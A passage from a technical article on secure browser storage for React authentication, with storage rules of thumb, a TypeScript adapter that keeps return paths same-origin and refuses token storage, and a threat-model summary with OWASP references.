React Query persisted cache restores User A's case data.

Correct design:

```txt
- clear query cache on logout,
- use user/session-specific persister key,
- avoid persisting sensitive data by default,
- encrypting client cache is not enough if key is client-accessible,
- server-controlled cache headers.
```

---

## 16. Storage rules of thumb

```txt
Rule 1: Do not store refresh tokens in localStorage.
Rule 2: Do not store roles/permissions as authority in any browser storage.
Rule 3: Prefer HttpOnly Secure SameSite cookies for session ids in BFF/server-session architectures.
Rule 4: If access tokens must be in browser JS, keep them short-lived and preferably in memory.
Rule 5: Treat localStorage as preference storage, not security storage.
Rule 6: Treat sessionStorage as transaction storage, not high-trust storage.
Rule 7: Clear query/cache/realtime state on logout/session expiry.
Rule 8: Multi-tab auth is part of the design, not an afterthought.
Rule 9: Browser storage may optimize UX; it must not create authorization.
Rule 10: Every storage decision must name its dominant threat.
```

---

## 17. Minimal safe storage adapter

A production React auth module should make dangerous storage usage inconvenient.

```ts
const RETURN_PATH_KEY = "auth:returnPath";
const LAST_TENANT_HINT_KEY = "auth:lastTenantHint";

function safeInternalPath(raw: string | null): string | null {
  if (!raw) return null;

  try {
    const url = new URL(raw, window.location.origin);

    if (url.origin !== window.location.origin) return null;
    if (!url.pathname.startsWith("/")) return null;
    if (url.pathname.startsWith("//")) return null;

    return `${url.pathname}${url.search}${url.hash}`;
  } catch {
    return null;
  }
}

export const authStorage = {
  setReturnPath(path: string) {
    const safe = safeInternalPath(path);
    if (safe) sessionStorage.setItem(RETURN_PATH_KEY, safe);
  },

  consumeReturnPath() {
    const safe = safeInternalPath(sessionStorage.getItem(RETURN_PATH_KEY));
    sessionStorage.removeItem(RETURN_PATH_KEY);
    return safe ?? "/";
  },

  setLastTenantHint(tenantId: string) {
    // Still only a hint. Server must validate membership.
    localStorage.setItem(LAST_TENANT_HINT_KEY, tenantId);
  },

  getLastTenantHint() {
    return localStorage.getItem(LAST_TENANT_HINT_KEY);
  },

  clearAuthHints() {
    sessionStorage.removeItem(RETURN_PATH_KEY);
    localStorage.removeItem(LAST_TENANT_HINT_KEY);
  }
};
```

Note the adapter does not support token storage.

That is a design choice.

---

## 18. Summary

Browser storage is not a neutral implementation detail.

It changes the attack model.

```txt
localStorage gives persistence and convenience, but high XSS blast radius.
sessionStorage gives tab-local transient storage, but is still JS-readable.
memory reduces persistence theft, but cannot stop XSS-as-user.
HttpOnly cookie hides credential from JS, but needs CSRF/session-riding defense.
IndexedDB/Cache API can silently persist sensitive data if not governed.
```

Top-tier React engineers do not ask only “where should I put the token?”

They ask:

```txt
Who can read it?
Who sends it?
How long does it live?
How is it revoked?
What happens across tabs?
What happens during XSS?
What happens during CSRF?
What happens after logout?
What happens when permissions change?
```

The correct storage strategy is the one whose failure modes you can explain, test, monitor, and recover from.

---

## References

- OWASP HTML5 Security Cheat Sheet — Web Storage guidance.
- OWASP Session Management Cheat Sheet — session identifiers, cookie attributes, lifecycle.
- OWASP Cross-Site Request Forgery Prevention Cheat Sheet — SameSite, CSRF token patterns, origin verification.
- MDN Web Docs — `Set-Cookie`, cookies, Web Storage API, cookie attributes.
- OAuth 2.0 Security Best Current Practice, RFC 9700.
